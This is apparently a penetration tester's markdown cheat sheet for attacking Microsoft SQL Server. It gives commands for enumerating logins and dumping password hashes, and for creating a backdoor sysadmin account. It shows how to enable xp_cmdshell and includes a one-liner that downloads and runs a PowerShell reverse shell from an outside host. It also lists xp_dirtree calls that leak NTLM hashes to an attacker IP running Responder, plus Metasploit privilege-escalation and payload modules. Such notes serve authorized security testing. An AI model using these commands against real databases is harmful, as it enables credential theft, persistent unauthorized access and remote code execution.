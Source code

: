 ```yaml
---
Ports: 1433
Description: MSSQL is a relational database management system developed by Microsoft.
---
```


>[!info]
> Microsoft SQL Server is a relational database management system developed by Microsoft. As a database server, it is a software product with the primary function of storing and retrieving data as requested by other software applications—which may run either on the same computer or on another computer across a network (including the Internet).


# Basic Usage

## Default MS-SQL System Tables

- **master Database** : Records all the system-level information for an instance of SQL Server.
- **msdb Database** : Is used by SQL Server Agent for scheduling alerts and jobs.
- **model Database** : Is used as the template for all databases created on the instance of SQL Server. Modifications made to the model database, such as database size, collation, recovery model, and other database options, are applied to any databases created afterwards.
- **Resource Database** : Is a read-only database that contains system objects that are included with SQL Server. System objects are physically persisted in the Resource database, but they logically appear in the sys schema of every database.
- **tempdb Database** : Is a work-space for holding temporary objects or intermediate result sets.

## Basic MSSQL queries

```sql
# DB enumeration
select @@version;	                        # Get version

# User enumeration
SELECT system_user;							# Whoami
SELECT is_srvrolemember('bulkadmin');		# Bulkadmin?
SELECT is_srvrolemember('sysadmin');		# Sysadmin?
SELECT name FROM master..syslogins			# Enumerate other users
select sp.name as login, sp.type_desc as login_type, sl.password_hash, sp.create_date, sp.modify_date, case when sp.is_disabled = 1 then 'Disabled' else 'Enabled' end as status from sys.server_principals sp left join sys.sql_logins sl on sp.principal_id = sl.principal_id where sp.type not in ('G', 'R') order by sp.name;

# Schema and data enumeration
SELECT DB_NAME()							# Current database
SELECT name FROM master.dbo.sysdatabases	# Extract DBs
SELECT table_name FROM <DB>.information_schema.tables		                            # Extract tables
SELECT column_name FROM <DB>.information_schema.columns WHERE table_name = 'table-name'	# Extract columns
SELECT * FROM <DB>.dbo.<table>

# Search for credentials of hash
SELECT name, password_hash FROM sys.sql_logins				                            # Extract system hash
SELECT * FROM master.sys.server_principals
SELECT * FROM master.sys.syslogins

#Create user with sysadmin privs
CREATE LOGIN hacker WITH PASSWORD = 'P@ssword123!'
sp_addsrvrolemember 'hacker', 'sysadmin'
```

## Extract MSSQL hashes from master.mdf

>[!assay]
>During a number of engagements, I have found myself in a position in which I have held administrative access to a server running a local instance of Microsoft SQL Server, but had not held credentials to access the service.
>
>For seasoned penetration testers out there, you will know that there are multiple ways to gain access to a SQL Server once you have access to the local server, for example running SQLQuery as the SYSTEM user which often runs under the SysAdmin permission, or injecting into the service process and spawning SSMS.
>
>It always worries me when injecting into a SQL Server process (or any critical process for that matter), especially during a live engagement in which downtime for the service can have real consequences. Up until now I have never had an option to complete a “safe” review of the credentials stored on such a database server.
>
>With this is in mind, I started to research the process of safely recovering password hashes from a SQL Server instance when deployed in “Mixed Authentication Mode”, which provides value during an assessment and helps you to potentially access the SQL server via the front door with weak passwords. The obvious target to do this was by reviewing the configuration and metadata that Microsoft SQL Server stores in its master.mdf file. There were a number of challenges in getting this to work, which I have documented below for anyone else interested in implementing or improving on this method. 
>
>https://blog.xpnsec.com/extracting-master-mdf-hashes/
>

---

# Enumeration

>[!tip]
>A comprehensive list on how to enumerate MSSQL can be found on [HackTricks, Pentesting MSSQL - Microsoft SQL Server](https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server#basic-information)

- [NSE (Nmap Scripting Engine)](../Tools/nmap.md#NSE%20(Nmap%20Scripting%20Engine))

```bash
nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 <IP>
```

- [msfconsole (auxiliary modules)](../Tools/msfconsole.md#Auxiliary%20Modules)

```bash
msf> use auxiliary/scanner/mssql/mssql_ping
```

---

# Exploitation


## Brute Force

- [medusa](../Tools/medusa.md)
- [hydra](../Tools/hydra.md#MSSQL%20Brute-Force)
- [CrackMapExec](../Tools/CrackMapExec.md#Brute-Force)

## [SQL Injection](../Web%20&%20Network%20Hacking/SQL%20Injection.md)

## One credentials are gathered [^2]

[^2]: https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server#tricks

### Execute commands

- [CrackMapExec > Execute Commands](../Tools/CrackMapExec.md#Execute%20Commands)

```bash
#Username + Password + CMD command
crackmapexec mssql -d <Domain name> -u <username> -p <password> -x "whoami"
#Username + Hash + PS command
crackmapexec mssql -d <Domain name> -u <username> -H <HASH> -X '$PSVersionTable'

#this turns on advanced options and is needed to configure xp_cmdshell
EXEC sp_configure 'show advanced options', '1';
RECONFIGURE;
#this enables xp_cmdshell
EXEC sp_configure 'xp_cmdshell', '1';
RECONFIGURE;
# Quickly check what the service account is via xp_cmdshell
EXEC master..xp_cmdshell 'whoami'
```

- [mssqlclient.py](../Tools/impacket.md#mssqlclient.py)

```bash
mssqlclient.py  -db volume -windows-auth <DOMAIN>/<USERNAME>:<PASSWORD>@<IP> #Recommended -windows-auth when you are going to use a domain. use as domain the netBIOS name of the machine

#Once logged in you can run queries:
SQL> select @@version;

#Steal NTLM hash
sudo responder -I <interface> #Run that in other console
SQL> exec master..xp_dirtree '\\<YOUR_RESPONDER_IP>\test' #Steal the NTLM hash, crack it with john or hashcat

#Try to enable code execution
SQL> enable_xp_cmdshell

#Execute code, 2 sintax, for complex and non complex cmds
SQL> xp_cmdshell whoami /all
SQL> EXEC xp_cmdshell 'echo IEX(New-Object Net.WebClient).DownloadString("http://10.10.14.13:8000/rev.ps1") | powershell -noprofile'
```

- sqsh

```
sqsh -S <IP> -U <Username> -P <Password> -D <Database>
```

- [msfconsole](../Tools/msfconsole.md)

```
#Set USERNAME, RHOSTS and PASSWORD
#Set DOMAIN and USE_WINDOWS_AUTHENT if domain is used

#Steal NTLM
msf> use auxiliary/admin/mssql/mssql_ntlm_stealer #Steal NTLM hash, before executing run Responder

#Info gathering
msf> use admin/mssql/mssql_enum #Security checks
msf> use admin/mssql/mssql_enum_domain_accounts
msf> use admin/mssql/mssql_enum_sql_logins
msf> use auxiliary/admin/mssql/mssql_findandsampledata
msf> use auxiliary/scanner/mssql/mssql_hashdump
msf> use auxiliary/scanner/mssql/mssql_schemadump

#Search for insteresting data
msf> use auxiliary/admin/mssql/mssql_findandsampledata
msf> use auxiliary/admin/mssql/mssql_idf

#Privesc
msf> use exploit/windows/mssql/mssql_linkcrawler
msf> use admin/mssql/mssql_escalate_execute_as #If the user has IMPERSONATION privilege, this will try to escalate
msf> use admin/mssql/mssql_escalate_dbowner #Escalate from db_owner to sysadmin

#Code execution
msf> use admin/mssql/mssql_exec #Execute commands
msf> use exploit/windows/mssql/mssql_payload #Uploads and execute a payload

#Add new admin user from meterpreter session
msf> use windows/manage/mssql_local_auth_bypass
```

### NTLM Service Hash gathering

>[!warning]
>You can extract the **NTLM hash** of the user making the service authenticate against you.
>- [Executing SMB Relay Attacks via SQL Server using Metasploit](https://www.netspi.com/blog/technical/network-penetration-testing/executing-smb-relay-attacks-via-sql-server-using-metasploit/)

You should start a **SMB server** to capture the hash used in the authentication ([SMB server](../Dev,%20scripting%20&%20OS/Dynamic%20Servers.md#SMB) or responder for example).

```sql
xp_dirtree '\\<attacker_IP>\any\thing'
exec master.dbo.xp_dirtree '\\<attacker_IP>\any\thing'
msf> use auxiliary/admin/mssql/mssql_ntlm_stealer
```

---

# Post Exploitation

The user running MSSQL server will have enabled the privileged token [SeImpersonatePrivilege](../Web%20&%20Network%20Hacking/SeImpersonatePrivilege.md). You probably will be able to escalate to Administrator using this token.
